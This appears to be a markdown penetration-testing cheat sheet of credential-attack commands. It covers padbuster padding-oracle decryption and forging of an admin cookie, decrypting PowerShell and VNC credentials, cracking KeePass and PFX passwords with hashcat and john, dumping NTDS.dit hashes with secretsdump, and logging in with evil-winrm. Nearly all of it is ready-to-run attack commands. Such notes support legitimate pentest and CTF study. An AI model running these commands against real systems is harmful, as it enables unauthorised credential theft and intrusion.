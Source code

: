 # Adding salt (as a normal string) to a password file
This is if the password has no salt shown, because it has been concatenated when encrypting, therefore the salt has to be added to the dictionary, line-by-line.
```bash
sed -e 's/^/prefix/' <file> > <file.new>
```


# Cewl
Cewl can be used on a webpage, and if one suspects that a password is hidden somewhere in the website.
[https://www.kali.org/tools/cewl/](https://www.kali.org/tools/cewl/)

## Usage
```bash
cewl -w <wordlist> -d 10 -m 1 <url>
```


# Padding oracle attack
```bash
# Decrypt
padbuster <url> "cookie" 8 -encoding 0 -cookies "cookiename=cookie"

# Encrypt new cookie
padbuster <url> "old_cookie" 8 -encoding 0 -cookies "auth=old_cookie" -plaintext "user=admin"
```

### Reference
- [https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv](https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv)


# Powershell credentials file
The command below can be used to decrypt a given credentials file. **(has to be logged in as the user)**
```powershell
(Import-CliXml -Path user.txt).GetNetworkCredential().Password
```

# VNC passwords
[https://github.com/trinitronx/vncpasswd.py](https://github.com/trinitronx/vncpasswd.py)     
Use the tool above to decrypt a VNC password hash
```bash
python vncpasswd.py -d -f <hashfile>
```

# KeePass (jenkins) & kdbx files
1.  Use `keepass2john` to make the file into a hash.
2. Crack the hash file (from step 1) with hashcat, this will give you the **master password**    
    ```bash
    hashcat.bin CEH.kdbx.hash /usr/share/wordlists/rockyou.txt --user
    ```
3. Use `kpcli` to extract passwords: 
    ```bash
    kpcli --kdb <file>.kdbx
    ```
4. Run, `find .` in `kpcl`i will list all of the passwords
5. `show -f [num]` will print a password based on the number that was input 

# .dit and .bin files
**.dit** files contain password hashes     
**.bin** files contain information about the system

## Dump hashes
Assuming these files are on your local machine already.  
- Dump hashes  
    ```bash
    secretsdump.py -ntds <.dit file> -system <.bin file> LOCAL
    ```
- Crack the hashes
    ```bash
    # MD5
    hashcat -m 0 -a 0 hashfile /usr/share/wordlists/rockyou.txt
    # NTLM
    hashcat -m 1000 -a 0 hashfile /usr/share/wordlists/rockyou.txt
    ```

### Troubleshooting
#### If hashcat cannot crack the hashes
Try [crackstation](https://crackstation.net/), the hash might already be in their system.

### References
- [https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/post-exploitation/extracting-credentials/retrieve-windows-hashes](https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/post-exploitation/extracting-credentials/retrieve-windows-hashes)
- [https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html](https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html)

# PFX files
Password protected file certificate commonly used for code signing your application. It derives from the PKCS 12 archive file format certificate, and it stores multiple cryptographic objects within a single file     

## Extract private key and certificate
```bash
# PRIVATE KEY
openssl pkcs12 -in <pfx_file> -nocerts -out private.key

# CERTIFICATE
openssl pkcs12 -in <pfx_file> -clcerts -nokeys -out certificate.crt
```

### Password protection
`pfx2john` can turn these files into a hash which can be brute-forced to extract password.
```bash
# Make hash file
pfx2john.py <file> > <hashfile>

# Dictionary attack
john -w=/usr/share/wordlists/rockyou.txt <hashfile>

# Brute force
john  <hashfile>

# One liners
pfx2john <file>  |john /dev/stdin
pfx2john <file>  |john -w=/usr/share/wordlists/rockyou.txt /dev/stdin
```

## Login with evil-winrm
```bash
evil-winrm -i <ip> -S -k <private_key> -c <certificate>
```